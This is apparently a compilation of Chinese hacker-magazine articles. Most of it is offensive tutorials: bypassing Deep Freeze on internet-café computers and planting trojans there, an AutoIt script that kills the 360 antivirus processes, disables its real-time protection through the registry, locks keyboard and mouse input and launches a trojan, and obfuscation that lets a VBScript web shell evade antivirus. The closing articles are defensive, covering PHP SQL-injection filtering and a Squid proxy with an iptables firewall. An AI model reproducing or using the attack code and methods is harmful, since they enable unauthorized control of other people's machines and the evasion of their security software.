考虑到免杀的方便性，我用VB写了一个自动免杀的工具，把要免杀的木马的代码粘贴到文本框中，点击免杀处理后，就会在当前目录生成一个免杀后的server.asp文件，软件界面如图2所示。

最后提醒一下大家，要免杀的ASP文件最好是没有经过加密处理的，不然免杀不一定成功。当然，要是觉得这个工具不好，也可以自己编一个好一点的免杀器。希望本文能给大家一点灵感，在脚本的免杀上迸发出更多的思路。

前置知识：无

关键词：冰点、$persi0、WinPE

### 网吧冰点还原终极破解

文／图 roger

破解冰点比较通用的方法是用“直接硬盘读取程序”直接读取硬盘扇区，把C盘根目录的$persi0.sys文件拷贝出来，用WinHEX修改还原标记，改完之后再用程序直接写入扇区，这样重启之后冰点还原就失去保护功能了。但是“直接硬盘读取程序”只支持老式IDE硬盘，不支持SATA串口硬盘。现在的网吧基本上都是串口硬盘，所以这个破解冰点的方法已经行不通了。

冰点还原是通过争夺南桥芯片的I/O控制权来实现的，当装入正确的驱动后，冰点就可以正确地拿到I/O控制器控制权，就达到了任何关于硬盘的写入都要经过它的控制，这样就可以轻易达到还原目的。但是这个驱动在正确安装了冰点还原的Windows下才能工作，也就是说只要不进系统，冰点还原的保护功能是失效的。下面根据网吧环境，给大家介绍两种比较实用的破解冰点还原的方法。

| 版本 | 5.4 | 5.7 | 6.0 |
|---|---|---|---|
| Boot Frozen | 7D 6E CB DD | 7D 6E CB DD | 7D 6E CB DD |
| Boot Thawed | 82 91 34 22 | 82 91 34 22 | 82 91 34 22 |
| 还原标记偏移量 | A0 到 A1 | B8 到 BB | B8 到 BB |
| 密码位置偏移量 | 48E 到 513 | 46A 到 4EF | 46A 到 4EF |

图2 冰点还原各版本$persi0.sys偏移量表

## 替换$persi0.sys破解

本机安装和网吧相同版本的冰点还原精灵，因为冰点还原的还原设置和密码设置信息都保存在$persi0.sys文件里。设置好密码后，把本机C盘中的$persi0.sys复制出来（注意，不要在Windows下复制），然后到网吧进行替换，这样网吧的冰点还原密码就成了你设置的密码，按Ctrl+Shift+Alt+F6热键呼出冰点还原，用你的密码就可以进行管理了。或者你可以到网吧非Windows环境下，把$persi0.sys复制出来，用WinHEX修改还原标记后，再进行覆盖操作，如图1和图2所示。

那么怎样才能绕过Windows系统呢？有些网吧装有MaxDOS，我们可以用MaxDOS密码读取器读取密码，然后进入DOS环境下替换。关于安装冰点还原，提取$persi0文件就不说了，这里只讲怎样替换。

先用MaxDOS密码读取工具读出来MaxDOS密码。不过对于大部分网吧来说，MaxDOS都会加以隐藏，我们需要开机按F8，选择“返回到操作系统选择菜单”，这样就能找到MaxDOS了。

这里有个小问题，$persi0文件我们是放在U盘里的，驱动USB设备又不支持NTFS格式，运行MaxDOS工具集里的ntfsdos又不支持USB。我的解决方法是，先驱动USB设备，然后把文件复制到非NTFS分区，再进入MaxDOS工具集，运行ntfsdos进行文件替换，然后用copy命令复制就行了，不用多说大家也会。这样破解成功后，进入系统即可。

## WinPE环境下破解

WinPE大多数人都知道是什么，简单说就是一个可以运行在光盘、U盘上的简单Windows系统。下面给大家介绍一种最简单的制作WinPE启动U盘的方法，而且用一款精简版的WinPE镜像，经测试，一般情况下，启动进入桌面需时一分钟左右。

所需工具：FlashBoot Mini、WinPE镜像。运行FlashBoot，选择“转换BartPE的启动盘到闪存盘上”，如图3所示，下一步选择PE镜像文件，再选择U盘盘符以及U盘格式化类型，有USB-HDD和USB-ZIP两种类型，ZIP兼容性比较好，一般先选ZIP，如果不能正确引导，就选择USB-HDD启动模式。之后就会开始生成启动U盘，如图4所示。

接下来我们就可以用这个U盘来引导进入WinPE系统了。启动之前要先在BIOS里设置一下启动顺序，设置从“Removable Devices”启动。进入WinPE后，就可以随意往硬盘里写文件了。但我们的目的是破解，这里还要用到一款工具RegistryWorkshop，可以在PE下运行。打开RegistryWorkshop，选择“文件->加载配置单元->导入硬盘Windows系统的注册表文件”（定位到X:\WINDOWS\system32\config找到system并打开），加载位置为HKEY_LOCAL_MACHINE，随便输入项名称，如图5所示，然后在该项下搜索“deep”，搜索到的结果选择按值排列，除UpperFilters值外，其他全部删除。UpperFilters值需要手动编辑，编辑每一个UpperFilters值，删掉DeepFrz这一行，如图6和图7所示。每一项UpperFilters值都编辑好后，卸载掉刚才加载的这个配置单元，重新启动进入硬盘Windows系统，冰点就成功破解了。

如果你不想破解掉冰点还原，直接在WinPE下挂马也很方便。配置好木马，放在系统盘的启动文件夹里，或者替换一些开机启动的程序，比如网吧有些AMD双核的系统，C:\Program Files\AMD\Dual-Core Optimizer下都装有双核优化补丁，替换即可。

前置知识：AU3  
关键词：工具、脚本、360实时保护

## AU3干掉360实时保护

#### 实战图文教程

最近在学习用AU3（即AutoIt v3.0 Windows自动安装脚本语言）编写程序的自动安装脚本，发现AU3很是强大。现在的好多木马都能过主防，但大都惨败在360的拦截之下，于是我就想实际测试一下360的实时保护。

在虚拟机中安装好360安全卫士，运行免杀的黑洞服务端，黑洞上线了，过一会360提示添加未知服务，如图1所示。点击“拒绝”，服务端立刻下线。查看黑洞的服务状态变为停止。经过测试，得出360是隔一定的时间对特定的地方进行检测，并将结果与上一次的数据进行对比，如果有变化就提示。这说明360的实时保护并不实时啊！

查看360的实时保护，发现一共有5种保护，分别是恶意插件入侵拦截、网页防漏及恶意网站拦截、U盘病毒免疫、局域网ARP攻击拦截和系统关键位置保护。默认状态下，360开启了除局域网ARP攻击拦截以外的保护。

经过分析，拦截木马服务的应该是系统关键位置保护。于是我还原虚拟机后安装360，并关闭360的系统关键位置保护。运行免杀的黑洞后，打开360，结果无任何提示，证明了只要360的保护被关闭，再运行我们的木马，360的实时防护就成“睁眼瞎”了。

经过我开启和关闭360的关键位置保护的动作对比，发现注册表里有了变化，于是我直接修改注册表的键值，发现360的防御没有变化，但当我退出360，并重新运行后，发现360的防御状态被更改了。

```reg
[HKEY_LOCAL_MACHINE\SOFTWARE\360Safe\safemon]
"ExecAccess"=dword:00000001  ; 恶意插件
[HKEY_LOCAL_MACHINE\SOFTWARE\360Safe\safemon]
"SiteAccess"=dword:00000001  ; 网页防漏洞功能
[HKEY_LOCAL_MACHINE\SOFTWARE\360Safe\safemon]
"MonAccess"=dword:00000000   ; 系统关键位置保护
[HKEY_LOCAL_MACHINE\SOFTWARE\360Safe\safemon]
"UDiskAccess"=dword:00000001 ; U盘免疫

; 当值为00000001时打开保护，00000000为关闭保护
```

于是，一个过360的流程就出来了：先结束360进程，然后修改注册表键值，关闭360实时保护，运行木马。还可以在木马运行后，再打开360防御，免得被人发现。

既然最近在用强大的AU3进行自动化操作，于是我想到用AU3打造一个过360的脚本。安装AU3后，新建一个文本文档，把后缀名修改为.au3，右键选择编辑脚本，就可以写我们过360的代码了。

##### 结束进程

前面说过了，要过360就要先干掉其进程。通过查找得知结束进程的函数为ProcessClose。使用方法为ProcessClose("进程名"[,标志])。4.1版的360有2个进程，一个为360safe.exe，另一个为360tray.exe，但在测试中发现，重新打开360会做出提示，如图2所示。

所以我们就将其换成Windows XP自带的工具taskkill来结束它。AU3中运行其他程序的函数有Run、RunWait，两个函数的区别在于Run直接运行外部程序不等待，直接执行下一句。RunWait是运行一个外部程序并暂停脚本的执行，直至该程序执行完毕。在这里我们两个都可以用。但我们必须要先结束了进程，然后修改注册表才有效果，所以为了安全，我建议使用RunWait。使用方法为RunWait("运行的文件名")。由于taskkill是命令行工具，运行起来的时候会跳出一个黑框，然后消失。这不是在告诉别人，你中招了，赶紧杀毒吗？幸好AU3提供了隐藏窗口的参数@SW_HIDE，它可以隐藏指定窗口并激活其他窗口。完整的命令如图3所示。

```autoit
RunWait(@ComSpec & " /c " & 'taskkill /f /im "360tray.exe"', '', @SW_HIDE)
RunWait(@ComSpec & " /c " & 'taskkill /f /im "360safe.exe"', '', @SW_HIDE)
```

##### 注册表

进程结束完了，继续修改注册表。AU3修改注册表的函数使用RegWrite，直接通过写入的方式来进行修改键值。使用格式为RegWrite("键名"[,"值项","类型", 数据])，注册表可以把全部的保护关闭，也可只关闭系统关键位置保护，如图4所示。

```autoit
RegWrite("HKEY_LOCAL_MACHINE\SOFTWARE\360safe\safemon", "MonitorFile", "REG_DWORD", "00000000")
RegWrite("HKEY_LOCAL_MACHINE\SOFTWARE\360safe\safemon", "MonitorProcess", "REG_DWORD", "00000000")
RegWrite("HKEY_LOCAL_MACHINE\SOFTWARE\360safe\safemon", "MonitorReg", "REG_DWORD", "00000000")
```

##### 运行木马

360的实时保护经过上面的处理已经变成残废了，现在直接运行我们的木马就安全了，用Run或RunWait都可以。

### 隐藏AU3运行的图标

默认情况下，AU3运行在右下角会有一个黑色的小球图标，脚本运行完毕后自动退出。从脚本开始到木马结束，时间也不短的，所以要隐藏AU3的运行图标。在编写的脚本第一行加上“#NoTrayIcon”即可隐藏图标。

##### 键鼠锁定

由于AU3在自动运行时，键盘鼠标的操作有可能会导致脚本中断，所以有必要对键盘鼠标进行暂时锁定，锁定函数为BlockInput，1为屏蔽用户输入，0为启用用户输入。个人觉得，在“#NoTrayIcon”执行后，执行键盘锁定最好；所以在“#NoTrayIcon”后输入BlockInput(1)。键盘一旦锁定，就会屏蔽用户的一切输入，在脚本执行完毕后必须进行解锁，不然只有重启计算机后，键盘鼠标才可进行操作。为键鼠解锁的命令为BlockInput(0)，建议在最后的一行加上这句代码，如图5所示。

```autoit
#NoTrayIcon
BlockInput(1)
RunWait(@ComSpec & " /c " & 'taskkill /f /im "360tray.exe"', '', @SW_HIDE)
RunWait(@ComSpec & " /c " & 'taskkill /f /im "360safe.exe"', '', @SW_HIDE)
RegWrite(...)
Run("trojan.exe")
BlockInput(0)
```

经过上面的几步，就算全部做完了，将写好的脚本编译为EXE即可。点工具下的编译脚本或者按Ctrl+F7，然后指定保存路径后即可编译成功。将编译后的文件和木马放到一起，将你的木马改名为第3步中Run后的文件名，然后再制作成RAR自解压包即可。

以上这个方法只是我的一个思路，会编程的朋友就更容易实现，编译出的文件应该会更小。

前置知识：无

关键词：工具、代码混淆、免杀

### 使用代码混淆技术免杀脚本后门

文／图 伪黑客


代码混淆技术是一种可用于目标代码和软件知识产权进行保护的程序变换技术，在不改变原有程序基本功能的条件下，代码混淆加大了逆向工程的难度，使得软件破解者难以调试程序，对反汇编出的源代码难以阅读和理解。通常我们对木马添加花指令的免杀技术就属于代码混淆的范畴。很多人把混淆和加密搞混，实际上两者是有一定区别的，采取的手段也有很大不同。加密主要是为了防止未经授权的使用，对这种情况即使破解了加密，也只能非法使用，并不一定能获得软件的代码逻辑；而混淆指的是在无法阻止他人获取代码的情况下，采取的保护代码逻辑不被他人理解的措施。对于混淆的代码，他人很难理解，无法进行修改和重新利用。

由于脚本类语言程序代码都是明文可见的，为了保护软件作者的劳动成果，对程序代码进行混淆就显得尤为重要。而对于反病毒软件查杀脚本类病毒和后门程序，基本上是基于特征字符串识别的技术，因此使用代码混淆打乱原有的特征字符串排列，可以起到很好的免杀效果。下面我们就以一个具体的简单示例来向大家介绍使用混淆来免杀脚本后门。

- 混淆变换主要分为以下几种：
  - 1）词法变换：原理是对函数和变量的名称进行扰乱，使其违背见名知意的软件工程原则。
  - 2）控制流变换：包括分支插入变换、循环条件插入变换、可化简的控制流转换为不可化简的控制流、取消循环和控制流恶化。例如使用绝对跳转指令修改程序流程，对循环次数已知的确定循环用该循环运行时实际执行的代码加以替换等，都属于控制流变换。
  - 3）数据变换：包括数组重构变换、变量重组变换、将静态数据转换为与程序相关的数据和数值变量混合变换。例如将数组转化为多个数组或多个变量，将字符串变量转化为多个字符串变量等都属于这类变换。
  - 4）类结构变换：包括类融合、类分裂和类……

#### 添加垃圾代码或注释

图1这段代码是最新的瑞星病毒库（病毒库发布日期2008-09-30）查杀的海洋木马的服务端。我们简单地在代码中加入一些注释即可实现免杀，如图2所示。也可以随机插入 `DD34424="sdfkshsdjfpj3"` 这样的无效指令来混淆躲过查杀，如图3所示。

```vbscript
<script language="vbscript" runat="server">
If Request("#")<>"" Then Session("lockMarcos")=Request("#")
If Session("lockMarcos")<>"" Then Execute(Session("lockMarcos"))
</script>
```

图1

```vbscript
'fdsfdsd#$#$#&
<script language="vbscript" runat="server">
'...（含大量注释与无效字符的混淆示例）
If Request("#")<>"" Then
  Session("lockMarcos")=Request("#")
End If
If Session("lockMarcos")<>"" Then
  Execute(Session("lockMarcos"))
End If
</script>
```

图2

## 语句的续行和加入空白字符

在正常编写代码时，为了代码的可读性，我们常在代码的适当位置保持断行和缩进。而在代码中进行非常规的断行却能起到逃避杀毒软件查杀的作用。以VBScript语言为例，“Enter”是作为VBScript语句的结束符，需要续行时，在上一行的行尾加上续行符下划线“_”，也可以使用各种空白字符（空格、Tab等）打乱代码的排列，进行简单的混淆。

```vb
<%
DD34424 = "sdfksdjfpi3"
DR43231 = "gkyujfyl32432"
If Request("d")<>"" Then
  ER45621 = "dgsdfgfdgyag3"
  Session("asd")=Request("d")
End If
Dim EUYI
EUYI = "lcxWzFASFsa"
If Session("asd")<>"" Then
  DD34424 = "sdfkf..."
  Execute(Session("asd"))
End If
%>
```

图4和图5这两个脚本，瑞星都未查杀。注意，图6这段代码是不完全的，图像太长无法截取，这段代码是使用“:”将所有语句连成了一行。

```vb
<script language="vbscript" runat="server">
If Request("#")<>"" Then Session("lcxMarcos") _
=Request("#")
If Session("lcxMarcos")<>"" Then Execute _
(Session("lcxMarcos"))
</script>
```

```vb
=Request("#"):If Session("lcxMarcos")<>"" Then
```

#### 变量、字符串、函数名混淆

比如把 `False` 替换成 `(Rnd * 0)`，字符串或语句的分割、重组、变换，包括使用 `chr`、`unescape` 等函数对字符或字符串处理及字符的大小写改变。通过对变量重新赋值，也可以使用“名称可变的变量”、“可变函数名的变量函数”对变量和函数名进行混淆，如图6所示。

```js
// 图6：大量变量重命名与字符串拼接混淆代码（截图过长，省略）
```

图7是使用“可变函数名的变量函数”对函数名进行混淆的示例。

```vb
'下面这个函数是将密文加密了的字符串的
'加密了的字符串中ASCII码大于177就将数字减去177
Function jacky(c As String)
    For o = 1 To Len(c)
        z = Mid(c, o, 1)
        If Asc(z) > 177 Then z = ""
        x = x & z
    Next o
    jacky = x & vbCr
End Function
```

#### 代码段交换、指令替换、函数顺序改变混淆

简单的代码段交换可以是在不影响程序流程和功能的情况下，对代码段进行前后位置的挪动。复杂的代码段交换就要考虑到程序流程。指令替换即把被查杀的指令替换成等价的指令，可以一对一替换，也可以一对多、多对多地替换。函数顺序改变同样要考虑到是否影响程序流程。

#### 加密混淆

我们知道，现在的防病毒软件都有启发式扫描技术，启发式扫描是在总结大多数病毒行为的基础上，通过判断病毒程序行为和普通程序行为的不同来识别病毒。上面提到的混淆手段基本是属于多态技术范畴，多态对付特征字符串扫描是很好的技术，但多态不能很好地对付启发式扫描。为了干扰反病毒软件对病毒行为的理解，就需要用到加密代码的方法来对付启发式扫描。

简单的加密方法有ASCII码交换加密（脚本程序说白了就是字符组成的字符串，而每个字符又对应相应的ASCII码，所以我们可以通过这种方法加密代码）、无效指令加密、异或加密等，如图8和图9所示。

```vb
'一段对字符串加密的函数
'转换与异或即可解密
Function encr(s, k)
    Dim r
    r = ""
    For f = 1 To Len(s)
        r = r + Chr((Asc(Mid(s, f, 1))) Xor k)
    Next
    encr = r
End Function
```

有了上面的知识，大家灵活应用，免杀一个脚本后门应该就是轻而易举的事情了。如果我们把这些混淆手段写成混淆器，来为我们自动混淆脚本，做个脚本免杀程序就更加方便了。

```php
<?php
$s = "hello world";
$fun = "strtolower";
echo $fun($s); // 输出 "hello world"

$fun = "strtoupper";
echo $fun($s); // 输出 "HELLO WORLD"
?>
```

## 也谈PHP程序SQL注入防范

适合读者：网管、脚本爱好者  
前置知识：PHP

文／图 非零解&周琳


目前，PHP安全问题已经成为PHP领域的一个热门话题。要想确定脚本是安全的，必须从最基本之处开始——输入的过滤和安全的输出。如果不充分地做好这些基本工作的话，你的脚本将会一直存在安全问题。本文将从输入的过滤讨论对PHP程序的SQL注入的防范。

#### 对字符型注入的防范

当脚本的输入出自于其他地方，输入肯定是不安全的。常见的危险脚本有 `$_POST`、`$_GET`、`$_REQUEST` 和 `$_SERVER`。这些都是看起来安全，实际上都存在一定危险隐患。面对这些外来脚本，在做进一步的工作之前，你首先要做的是使它合法化，同时有效地过滤它。确认脚本里面包含你需要的就足够了。就像如果你想申请一个电子邮箱，仅仅只需要确定它是一个有效的电子邮箱就行。下面举个例子进行说明。

```php
<?php
$email = $_POST['email']; # 这里存在安全问题
// 判断是否为有效的 email
if (valid_email($email) == false) {
    // 不是有效的电子邮件地址
    die("Invalid E-mail Address!");
}
?>
```

通过检查这些数据，我们要尽可能拒绝将危险的数据写入脚本里面。即使我们可以确定数据是比较安全的，也不代表工作就完成了。我们还需要确定它被插入的时候也是安全的。PHP有一个标准函数——`mysql_real_escape_string()`，它是转义SQL语句中使用的字符串中的特殊字符。

> `mysql_real_escape_string()` 是转义SQL语句中使用的字符串中的特殊字符，并考虑到了连接的当前字符集。用法为：`string mysql_real_escape_string(string unescaped_string[, resource link_identifier]);` 其功能是将 `unescaped_string` 中的特殊字符转义，并计算连接的当前字符集，因此可以安全用于 `mysql_query()`。`mysql_real_escape_string()` 并不转义“%”和“_”。

因此，上面的例子，我们可以把它转换成如下形式。

```php
<?php
$email = $_POST['email'];
if (valid_email($email) == false) {
    die("Invalid E-mail Address!");
}
$email = mysql_real_escape_string($email);
?>
```

现在这些数据就完全安全了，可以放心地插入数据库。为了避免一些错误和增加代码的可读性，我们通常会对其加前缀。

```php
<?php
$d_Email = $_POST['email'];
$s_Email = mysql_real_escape_string($d_Email);
?>
```

用这种方法，它总是以固定的前缀“d_”出现。当你插入一个危险的数据时，你会立刻意识到这一点，这是一种比较好的编码习惯。当然，在 `php.ini` 中 `magic_quotes_gpc=On`，也能把提交的变量中所有的“'”（单引号）、`"`（双引号）、“\”（反斜线）和空字符自动转为含有反斜线的转义字符，这样的设置可能不利于整个程序的开发。

`mysql_escape_string()`，非MySQL可用 `addslashes()`，同样可以把用户提交上来的非数字数据进行转义（使用方法与 `mysql_real_escape_string()` 类似）；如果字符串中只允许字母、数字，可使用函数 `ctype_alnum()`。

> `ctype_alnum()` 是检查字符串是否只包含字母、数字；用法为：`bool ctype_alnum(string $text)`。如果字符串里只包含字母或数字，这个函数就会返回 `true`。

#### 对数字型注入的防范

上面的过滤可以防止字符型注入，对于数字型的注入，我们可以用其他的函数来对提交的数据进行检查或者处理。以下面的SQL语句为例，SQL语句对 `userid` 没有经过任何过滤就可以被构造SQL注入。

```php
$userid = $_POST['userid'];
$query = "SELECT * FROM users WHERE id=$userid";
```

在这里的 `userid` 是接受数字用的，可以用 `is_int()`、`is_integer()`、`is_long()`、`is_numeric()` 和 `ctype_digit()` 等函数判断接受的数据是不是数字。

> 1. `is_int()` 函数（别名函数 `is_integer()` 或 `is_long()`），用法为 `bool is_int(mixed $var)`。如果 `var` 是 `integer` 则返回 `true`，否则返回 `false`。  
> 2. `is_numeric()` 函数，用法为 `bool is_numeric(mixed $var)`。如果变量是数字，或者是包含数字及符号、小数点、指数的字符串，这个函数就会返回 `true`。  
> 3. `ctype_digit()` 函数，用法为 `ctype_digit($string)`。如果字符串里只包含字符“0”到“9”，函数就会返回 `true`。注意，不允许有小数点。

先前的例子经过以上函数 `is_numeric()` 处理后，我们把它转换成：

```php
if (is_numeric($_POST['userid'])) {
  $s_userid = $_POST['userid'];
  $query = "SELECT * FROM users WHERE id=$s_userid";
}
```

上面的 `s_userid` 表示数据是安全的，增加了代码的可读性。

常常忘记这样做，但是很值得推荐。这样用判断数字的函数有效地检查了输入的数据。我们还可以在程序中使用类型设置函数 `settype()` 和 `intval()` 把输入的数据转换成数字。

使用函数 `settype()` 来处理上面输入的数据，可以采用下面的形式。

```php
$d_userid = $_POST['userid'];
if (settype($d_userid, "integer"))
  $s_userid = $d_userid;
$query = "SELECT * FROM users WHERE id=$s_userid";
```

> 1. `intval()` 函数；用法为 `int intval(mixed $var [, int $base])`。通过使用特定的进制转换（默认十进制），返回变量 `var` 的数值。`var` 可以是任何标量类型。`intval()` 不能用于 `array` 或 `object`。注意，除非 `var` 参数是字符串，否则 `intval()` 的 `base` 参数不会有效果。  
> 2. `settype()` 函数，用法为 `bool settype(mixed $var, string $type)`。将变量 `var` 的类型设置成 `type`。`type` 的可能值为 `boolean`（或 `bool`）、`integer`（或 `int`）、`float`（旧版本中的 `double` 已停用）等。如果成功则返回 `true`，失败则返回 `false`。

#### 编写过滤输入的函数

用PHP本身的函数就能把输入过滤得很严格，但是在实际编写代码的时候会有很多问题出现。比如我们必须考虑每个变量用什么函数来过滤。这时建立一个安全的抽象层，能自动地过滤输入，就可以把过滤的方法建立在一个函数或者封装在一个类里面。

在PHP中，一般常用两个函数对字符型输入进行过滤：`addslashes()` 和 `mysql_real_escape_string()`。这两个函数适用于不同的PHP版本，`mysql_real_escape_string()` 是 PHP >= 4.3.0 中才开始使用。对于PHP+MySQL编写的程序，如果我们不知道用户使用的PHP版本，可以写函数进行相应判断。

```php
function sql_quote($value) {
  // 判断 get_magic_quotes_gpc() 为 on，并去掉反斜线字符
  if (get_magic_quotes_gpc()) {
    $value = stripslashes($value);
  }

  // mysql_real_escape_string 函数存在，并用它处理字符串
  if (function_exists('mysql_real_escape_string')) {
    $value = mysql_real_escape_string($value);
  }
  // 当 PHP < 4.3.0 使用 addslashes() 函数过滤
  else {
    $value = addslashes($value);
  }

  return $value;
}
```

```text
query = "SELECT * FROM users WHERE username='' OR '1'='1'";
```

使用 `sql_quote()` 函数后，SQL语句变为：

```text
query = "SELECT * FROM users WHERE username='\' OR \'1\'=\'1\''";
```

从而使得这条语句变安全了，攻击者单从这条语句绕过验证的话就不可能了。

我们用上面编写的 `sql_quote()` 函数对输入的字符串进行过滤。

```php
$username = $_POST['username'];
$query = "SELECT * FROM users WHERE username='" . sql_quote($username) . "'";
```

没有使用这个函数的时候，我们可以用 `OR '1'='1'` 绕过用户的验证，SQL语句变为……

#### 总结

本文主要讨论了PHP对SQL注入攻击的防范，参考了《PHP Security Basic PHP Security》及其他文章，经过翻译整理后而成。如果读者有兴趣的话，可以翻看原文《PHP Security: Basic PHP Security》，地址为：http://www.phpit.net/article/php-security-basic/。

适合读者：网管　　前置知识：无

## 用Linux下的代理服务器保护主干网

文／西部猎手（王聪）


前一段时间学校要给每个实验室都安装代理服务器，于是我找到学校网络中心，在真实环境中实践了一下。学校的代理服务器上主要使用Squid进行Web代理，用Socks5进行其他代理，用iptables给代理服务器加上一道防火墙。之所以要安装代理服务器，是因为实验室里的计算机病毒非常多，如果将这些计算机直接连接在中心交换机上，对网络资源将是极大的浪费。而装上代理服务器后，不但可以上网，而且通过iptables的限制，局域网内的用户只能访问3128和1080这两个端口，使得一些木马无法向外连接。

#### 代理服务器有什么用

代理服务器的用途很广泛，一般用户可以用它来提高访问某些网络（比如教育网、国外网络）的速度。而我们学校用它主要是让实验室里的计算机可以上网的同时又将它们与主干网络隔离开来。对于一些流量比较大的网站，代理服务器还可以起到Web加速的作用。比如一些在线视频分享网站，扫描其80端口，会发现它运行的服务是 `http-proxy` 而不是 `http`。我用 `nmap` 来扫描 `www.56.com` 的80端口，输入下面的命令：

`[root@localhost ~]# nmap -PN -sV -p80 www.56.com`

可以得到如图1所示的结果，原来56.com是使用代理服务器将信息传给用户的，这样做不但安全，而且还大大提高了访问速度。可能有些朋友要问为什么加上代理服务器就能提高访问速度，这是因为代理服务器可以将用户经常访问的东西放在内存里，当……用户需要时，可直接将信息传给用户，而像 Apache 这样的 Web 服务器是从磁盘中将信息读到内存中，然后才将信息传给用户的，这样做明显没有用代理的速度快。当然，一个很大的内存是十分必要的。


图1

#### 安装前的准备

在安装 Squid 和 Socks5 之前，先要创建一个单独的分区来保存缓存文件，还要创建一个专门的用户来启动 Squid 和 Socks5。即使黑客利用了这两个软件的漏洞，他也没有 Root 权限。

- 1）查看服务器所挂硬盘的名称

`[root@localhost ~]# fdisk -l`

显示 Disk：`/dev/hda`，说明这台服务器硬盘的设备名是 `/dev/hda`。

- 2）创建一个新的 Squid 缓存分区

因为 Squid 要将缓存文件保存在硬盘里，这样会频繁读写硬盘，所以要单独建一个分区，最好是单独用一块硬盘。输入命令：

`[root@localhost ~]# fdisk /dev/hda`

然后按 `m` 取得帮助，从帮助中可以看出按 `n` 是创建一个新的分区，接着按 `l` 是增加逻辑分区。

当显示 “First cylinder (731-2431, default 731):” 时，直接回车。

当显示 “Last cylinder or +size or +sizeM or +sizeK (731-1176, default 1176):” 时，输入 `+2000M`，创建约 2GB 分区。

- 3）格式化分区为 ext3 格式

`[root@localhost ~]# mke2fs -j -L "logical" /dev/hda5`

- 4）挂载刚才创建的分区

`[root@localhost ~]# mkdir /mnt/cache`

`[root@localhost ~]# mount /dev/hda5 /mnt/cache`

命令执行完毕后，在 `/etc/fstab` 中添加一行：`/dev/hda5 /mnt/cache/ ext3 defaults 0 0`，可以让系统启动时自动挂载分区。

- 5）创建一个 proxy 用户

`[root@localhost ~]# useradd proxy`

- 6）设置用户密码

`[root@localhost ~]# passwd proxy`

接着输入两次密码即可。

- 7）配置服务器 IP

服务器上有两块网卡：eth0 连接内网（192.168.1.0/24），eth1 连接外网。

执行命令配置 eth0 的 IP：

`[root@localhost ~]# ifconfig eth0 192.168.1.1 netmask 255.255.255.0`

再执行命令配置 eth1 的 IP：

`[root@localhost ~]# ifconfig eth1 a.a.a.a netmask 255.255.255.0`

其中 `a.a.a.a` 为公网 IP。之后添加默认路由（`x.x.x.x` 为公网网关）：

`[root@localhost ~]# route add -net 0.0.0.0 gw x.x.x.x eth1`

#### 安装 Squid

- 1）安装 Squid 的 rpm 包：

`[root@localhost ~]# rpm -ivh squid-2.6.STABLE6-3.el5.i386.rpm`

- 2）修改 Squid 的配置文件：

`[root@localhost ~]# vim /etc/squid/squid.conf`

`squid.conf` 里的配置菜单如下，其他选项可使用默认值。

```conf
http_port 3128  # 监听端口为3128
cache_mem 700MB  # 设置 Squid 的高速缓存大小
maximum_object_size 4096 kB  # 超过4MB的文件不缓存到硬盘
maximum_object_size_in_memory 1024 kB  # 超过1MB的文件不缓存到内存
ipcache_size 1024  # DNS解析后的IP放缓存
ipcache_low 90
ipcache_high 95
fqdncache_size 1024

# IP与主机名称的记录：
visible_hostname 你的计算机名
##### 不设置有时无法启动
squid_logfile_rotate 6
# 设置日志轮转，6表示会生成0~6共7个日志文件

cache_dir ufs /mnt/cache 2000 16 256
#/mnt/cache为squid缓存分区的挂载点，2000是缓存分区的大小
cache_swap_low 90
cache_swap_high 95
# 当高速缓存占用到95%时，自动减小到90%

cache_effective_user proxy
cache_effective_group proxy
# 将squid的拥有者设成前面新建的那个用户

acl safe_ports port 80 8000 8080 443
http_access allow safe_ports
http_access deny !safe_ports
# 可访问的远程计算机的端口，之所以没有25端口是防止此代理服务器成为垃圾邮件的转发器

acl all src 0.0.0.0/0
acl lan src 192.168.1.0/24
http_access allow lan
http_access deny all
# 只允许内网用户使用此代理服务器，访问控制列表功能非常丰富，可以根据自己的需要进行设置
```

- 3）创建缓存目录

将缓存目录的拥有者设成配置文件中 `cache_effective_user` 指定的用户，属主设成 `cache_effective_group` 中指定的属主，这里的用户一定要对应，否则会启动失败。

`[root@localhost ~]# chown -R proxy:proxy /mnt/cache`

将保存日志的目录的拥有者也设成 proxy。

`[root@localhost ~]# chown -R proxy:proxy /var/log/squid`

生成缓存目录。

`[root@localhost ~]# squid -z`

- 4）日志轮转

假如 cache 非常忙，那么在一段时间后，Squid 的日志文件可能变得很大，严重的会导致 Squid 无法正常工作，所以必须定期轮转日志。每执行一次轮转时，Squid 删除 log.6 并重命名 log.5 为 log.6，然后重命名 log.4 为 log.5，依次类推。当前 log 变成 log.0，并且 Squid 创建一个新的空文件，命名为 log。  
如果嫌每次手动执行轮转日志太麻烦，我们可以在 `/etc/crontab` 里添加一行作业，前提是 cron 服务必须启动。

`0 3 * * * /usr/sbin/squid -k rotate`

这条命令表示每天早上 3 点轮转日志，其中 squid 的路径可以用 `[root@localhost ~]# type squid` 查到。

- 5）启动 Squid

启动前可输入如下命令对配置文件进行查错：

`[root@localhost ~]# squid -k parse`

如果没有错误，输入如下命令就可以以 proxy 用户身份启动 Squid。

`[root@localhost ~]# su proxy /etc/rc.d/init.d/squid start`

- 6）设定开机自动启动 Squid 服务

以 3（多用户文本界面）或 5（多用户图形界面）级别启动系统时启动 Squid 服务。

`[root@localhost ~]# chkconfig --level 35 squid on`

#### 安装 Socks5

有些协议不能使用 Squid 作代理，所以我们要再安装一个 Socks5。

- 1）编译并安装 Socks5

```bash
[root@localhost ~]# tar -xzvf socks5-v1.0r11-patched.tar.gz
[root@localhost socks5]# cd socks5-v1.0r11
[root@localhost socks5-v1.0r11]# ./configure --with-threads
[root@localhost socks5-v1.0r11]# make
[root@localhost socks5-v1.0r11]# make install
```

- 2）创建配置文件

创建一个文件 `/etc/socks5.conf` 并输入 `permit -- 192.168.1. --`，表示只允许 192.168.1.0/24 网段的用户使用 Socks 代理。

- 3）启动 Socks5

`[root@localhost ~]# su proxy socks5 -t`

- 4）开机自动启动 Socks5 服务

编辑 `/etc/rc.d/rc.local`，在里面加入一行 `"/usr/sbin/socks5 -t"`。这里的 `/usr/sbin/socks5` 可通过 `type socks5` 查到。

#### 配置 iptables

由于代理服务器放在外部，所以还要给它开启防火墙。我们用 vim 编写一个脚本 `iptables.sh`，代码如下。

```bash
# 加载所需的模块
modprobe ip_tables
modprobe iptable_nat
modprobe iptable_filter
modprobe ip_conntrack_ftp
modprobe ip_nat_ftp

##### 打开转发功能
echo 1 > /proc/sys/net/ipv4/ip_forward

##### 清空表和自建规则
iptables -F
iptables -X
iptables -F -t mangle
iptables -t mangle -X
iptables -F -t nat
iptables -t nat -X

##### 设定默认策略
